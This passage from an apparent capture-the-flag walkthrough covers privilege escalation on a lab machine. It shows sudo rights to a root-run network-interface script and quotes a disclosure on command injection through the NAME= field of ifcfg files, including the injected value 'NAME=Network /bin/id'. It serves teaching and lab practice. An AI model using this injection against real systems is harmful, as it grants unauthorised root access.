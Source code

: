 ### 6. Enumerate from user
Hit sudo -l:
```bash
[guly@networked tmp]$ sudo -l 
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```
Look at the shell script.
```bash
[guly@networked tmp]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```
This script is reading input to a variable, then performing some regex on the variable before echoing the variable's assignment into the network script file. This seems like more opportunity for command injection. Some reseach into network script exploits indicates this is possible. From https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f:

*If, for whatever reason, a user is able to write an ifcf-<whatever>; script to /etc/sysconfig/network-scripts or it can 
adjust an existing one, then your system in pwned.  
Network scripts, ifcg-eth0 for example are used for network connections. The look exactly like .INI files. However, 
they are ~sourced~ on Linux by Network Manager (dispatcher.d).  
In my case, the NAME= attributed in these network scripts is not handled correctly. If you have white/blank space in 
the name the system tries to execute the part after the white/blank space. Which means; everything after the first 
blank space is executed as root.  
For example:  
/etc/sysconfig/network-scripts/ifcfg-1337  
NAME=Network /bin/id <= Note the blank space  
ONBOOT=yes  
DEVICE=eth0*
  